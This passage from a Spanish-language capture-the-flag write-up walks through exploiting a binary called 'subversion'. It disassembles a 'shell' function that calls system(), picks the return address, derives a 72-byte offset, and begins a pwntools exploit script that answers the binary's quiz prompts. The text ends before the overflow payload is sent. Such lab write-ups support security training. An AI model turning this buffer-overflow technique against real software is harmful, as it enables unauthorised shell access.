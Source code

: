 ```css
gdb -q subversion
```

```css
pwndbg> disassemble shell
Dump of assembler code for function shell:
   0x00000000004017ac <+0>:	endbr64
   0x00000000004017b0 <+4>:	push   rbp
   0x00000000004017b1 <+5>:	mov    rbp,rsp
   0x00000000004017b4 <+8>:	lea    rdi,[rip+0xba0]        # 0x40235b
   0x00000000004017bb <+15>:	call   0x401100 <system@plt>
   0x00000000004017c0 <+20>:	nop
   0x00000000004017c1 <+21>:	pop    rbp
   0x00000000004017c2 <+22>:	ret
End of assembler dump.
pwndbg> 
```

en este caso usaremos la dirección "0x00000000004017b4", ya que es donde se prepara y pasa el argumento necesario al registro `rdi` antes de llamar a `system()`, lo que permite ejecutar /bin/bash.

Ahora continuaremos buscando cual es el offset, para esto utilizaremos `ghidra`:

![Offset](images/subversion/offset.png)

como vemos el offset es de 64, pero nosotros pondremos 72 porque hay un desplazamiento de 8 bytes debido a que el binario es de 64 bits.

Finalmente, el exploit quedaría asi:

```python
#!/usr/bin/env python3

from pwn import *
import ctypes


def exploit():

    binario = './subversion'
    p = process(binario)



    p.recvuntil(b"Respuesta:")
    p.sendline(b"1789")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"satyagraha")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"caidadelmurodeberlin")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"cartamagna")
    p.recvuntil(b"Respuesta:")
    p.sendline(b"luchacontraelapartheid")

```